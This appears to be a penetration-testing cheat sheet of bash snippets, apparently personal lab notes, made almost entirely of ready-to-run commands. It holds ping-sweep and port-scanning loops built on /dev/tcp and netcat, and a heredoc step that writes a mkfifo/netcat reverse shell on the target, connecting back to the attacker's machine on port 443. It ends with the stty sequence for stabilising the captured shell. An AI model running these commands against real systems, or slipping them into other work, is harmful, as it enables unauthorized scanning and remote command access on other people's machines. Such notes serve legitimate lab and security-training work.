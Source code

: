 #### Network scanner
```bash
#!/bin/bash
for i in `seq 1 255`; do ping -c 1 10.11.1.$i | tr \\n ' ' | awk '/1 received/ {print $2}'; done
```
```bash
for i in {1..255}; do (ping -c 1 x.x.x.${i} | grep "bytes from" &); done
```
[[netcat#NC port scanner]]
#### Port scanner
```bash - kali
#!/bin/bash
#./portscanner.sh -i xxx.xxx.xxx.xxx -p
#Variables
empty=""
#Arguments for the script
while [ "$1" != "" ]; do
	case "$1" in
		-i | --ip )		ip="$2";	shift;;
		-p | --ports )		ports="$2";	shift;;
	esac
	shift
done
#Checking if the -i is empty
if [[ $ip == $empty ]]; then
	echo "Please specify an IP address with -i"
	exit
fi
#checking is -p is empty
if [[ $ports == $empty ]]; then
	echo "Please specify the max port range -p"
	exit
fi
#Scans ports/Dumps closed ports/displays open ports
for i in $(seq 1 $ports); do
	( echo > /dev/tcp/$ip/$i) > /dev/null 2>&1 && echo $ip":"$i "is open";
done
```
#### Another port scanner
```bash
for i in {1..65535}; do (echo > /dev/tcp/$TARGET/$i) > /dev/null 2>&1 && echo $1 is open; done
```
#### port.sh
```
#!/bin/bash
if ["$1" == "" ]
then
  echo "Usage: ./port.sh [IP]"
  echo "Example ./port.sh $TARGET"
else
  echo "Please wait while it is scanning all the open ports..."
  nc -nvz $1 1-65535 > $1.txt 2>&1
fi
tac $1.txt
rm -rf $1.txt
```
#### EOF
```bash - target
cat > script.sh <<EOF
```
```bash - target
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc $KALI 443 >/tmp/f
```
```bash - target
EOF
```
#### STTY Terminal
```bash - kali
CTRL+Z
```
```bash - kali
stty raw -echo
```
```bash - kali
stty size
```
```bash - kali
fg
```
```bash - kali
export SHELL=bash
```
```bash - kali
stty rows $x columns $y
```
```bash - kali
export TERM=xterm-256color
```